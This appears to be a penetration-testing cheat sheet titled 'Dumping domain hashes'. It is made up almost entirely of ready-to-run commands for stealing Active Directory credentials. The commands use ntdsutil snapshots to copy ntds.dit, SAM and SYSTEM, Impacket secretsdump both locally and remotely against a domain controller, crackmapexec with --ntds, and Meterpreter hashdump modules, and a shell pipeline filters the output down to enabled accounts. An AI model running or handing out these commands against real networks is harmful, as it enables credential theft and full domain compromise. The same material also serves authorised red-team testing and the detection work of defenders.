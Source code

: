 # Dumping domain hashes

## NTDSutil

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
-- or --

ntdsutil
> snapshot
> activate instance ntds
> create
> mount {GUID}
```

Then browse to the mounted directory in the C:/ and copy out the ntds.dit && SAM & SYSTEM file to your prefered location

To delete the snapshot after:

```
delete {GUID}
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```

Or you can do it with a 1 liner remotely. but becareful it doesnt crash the connection

```
impacket-secretsdump -just-dc -user-status -pwd-last-set -history -exec-method smbexec DOMAIN/USER:PASS@IP
```

## crackmapexec

```
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```

## Meterpreter

Once you have your Meterpreter shell from your exploit of choice, such as PSEXEC

```
run post/windows/gather/smart_hashdump
--- or ---
run post/windows/gather/credentials/domain_hashdump
```

